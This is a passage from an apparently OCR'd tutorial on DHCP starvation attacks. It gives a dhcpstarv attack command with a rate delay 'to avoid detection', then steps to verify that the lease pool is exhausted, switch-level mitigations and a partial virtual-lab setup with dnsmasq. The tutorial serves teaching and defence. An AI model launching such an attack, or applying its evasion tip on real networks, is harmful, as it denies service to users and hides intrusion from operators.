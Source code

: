 **4. Limiting the Attack Rate**
To avoid detection, you can slow down the request rate using the `-d` option to specify a delay in milliseconds:
```css
sudo dhcpstarv -i eth0 -d 100
```

### **How to Verify the Attack**

1. **Check DHCP Leases**:
   On the DHCP server, you can verify if the IP pool is exhausted by listing the DHCP leases:
   ```css
   cat /var/lib/dhcp/dhcpd.leases
   ```
   You should see many leases assigned to random MAC addresses.

2. **Check Network Logs**:
   Use the following command to monitor DHCP server logs:
   ```css
   sudo tail -f /var/log/syslog | grep DHCP
   ```
   You will observe multiple DHCP DISCOVER and OFFER messages filling the logs.

### **Mitigating DHCP Starvation Attacks**

1. **Enable DHCP Snooping**:
   - This feature monitors DHCP messages, allowing only trusted ports to respond to DHCP requests and limiting DHCP responses to authorized devices.
   ```css
   Switch(config)# ip dhcp snooping
   Switch(config)# ip dhcp snooping vlan 10
   Switch(config-if)# ip dhcp snooping trust
   ```

2. **Rate Limiting**:
   - Limit the number of DHCP requests per second on a switch port:
   ```css
   Switch(config-if)# ip dhcp snooping limit rate 10
   ```

3. **MAC Filtering**:
   - Limit the number of MAC addresses per port to prevent MAC spoofing:
   ```css
   Switch(config-if)# switchport port-security
   Switch(config-if)# switchport port-security maximum 2
   ```

4. **Use Static IP Assignments**:
   - For critical devices, consider using static IP configurations to avoid dependency on DHCP.

### **Example Scenario in a Virtual Lab**

**Setup**:
1. **DHCP Server**:
   - Install a simple DHCP server like `dnsmasq`:
   ```css
   sudo apt install dnsmasq
   sudo dnsmasq --dhcp-range=192.168.1.2,192.168.1.50,12h
   ```
   
